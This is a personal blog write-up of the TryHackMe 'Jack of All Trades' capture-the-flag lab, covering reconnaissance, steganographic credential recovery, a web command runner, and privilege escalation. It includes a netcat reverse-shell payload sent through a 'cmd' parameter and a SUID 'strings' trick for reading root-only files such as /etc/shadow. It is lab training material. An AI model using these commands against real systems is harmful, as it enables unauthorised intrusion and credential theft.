 ```yaml
---
layout: post
title:  "THM - Jack of All Trades"
date:   2020-08-19 20:00:00 +1000
category: hacking
---
```


## Introduction
*Boot-to-root originally designed for Securi-Tay 2020.*

*Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?*

Goodo. It's easy rated. Let's begin.

## Ports
nmap says we've got two ports: 22 and 80. So that's SSH and HTTP respectively, right? Bzzzt. When I visited the website (defaulting to port 80) Firefox said:

**SSH-2.0-OpenSSH_6.7p1 Debian-5**

So that's no good. Seems like Jack is tricky and has swapped his ports around. Okay then, does Firefox like http://10.10.14.31:22 ?

Actually, no. It says:

*This address is restricted  
This address uses a network port which is normally used for purposes other than Web browsing. Firefox has canceled the request for your protection.*

In order to fix that, we have to go to **about:config** and add the string:

*network.security.ports.banned.override* with the value *22*

Now we're in.

## Website
On the website we find a little bit of text and a few images, one of which is called stego. Hmm. Also in the page source we have a base64 encoded comment, which reveals a password. We can use the password on the stego file:

``
root@kali:/opt/tryhackme/jack# steghide extract -sf stego.jpg
``

And this gives us a message that says we're looking in the wrong image. Lol. The one we want is actually the header image, and that gives us some more credentials, which we can enter at /recovery.php - a page we learned about in the page source of index.html.

## /recovery.php
This leads us to a page at http://10.10.14.31:22/nnxhweOV/index.php, which has the message: 

*GET me a 'cmd' and I'll run it for you Future-Jack.*

So this is a little script to run PHP commands, eg:

``
http://10.10.14.31:22/nnxhweOV/index.php?cmd=whoami
``

With this we can get a shell, using:

``
/nnxhweOV/index.php?cmd=nc%20-e%20/bin/sh%2010.9.10.123%201234
``

## On the box
Once we're in as www-data we quickly find a file called *jacks_password_list* that contains a series of potential passwords. We can work through these until we find one that works for **su jack**. This also works for SSH if we want to go that way. Once we've escalated to jack, we get the user flag.

## Privesc
As usual I ran linpeas, and it highlighted:

{% highlight shell %}  
[+] Readable files belonging to root and readable by me but not world readable  
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings  
-rwxr-x--- 1 root dev 233984 Nov  8  2014 /usr/bin/find  
{% endhighlight %}

That's a bit unusual. And in fact it's our method, we can just do:

{% highlight shell %}
jack@jack-of-all-trades:/dev/shm$ /usr/bin/strings /root/root.txt  
ToDo:  
1.Get new penguin skin rug -- surely they wont miss one or two of those blasted creatures?  
2.Make T-Rex model!  
3.Meet up with Johny for a pint or two  
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?  
5.Remember to finish that contract for Lisa.  
6.Delete this: **FLAG HERE**  
{% endhighlight %}

So there we go. We could also read /etc/shadow with this and grab the root hash if we wanted it.

## Footnote
Since I last wrote something I also completed the rooms **Overpass 2** and **Tartarus**, but I haven't written them up. I may do so at some point, I'm not sure. I've also had a crack at **Anonymous Playground** and gotten the first flag, but the second flag requires a buffer overflow. That's something that's been on my radar, but which I haven't learned about yet. So that's the topic *de jour* and it's my focus at the moment.

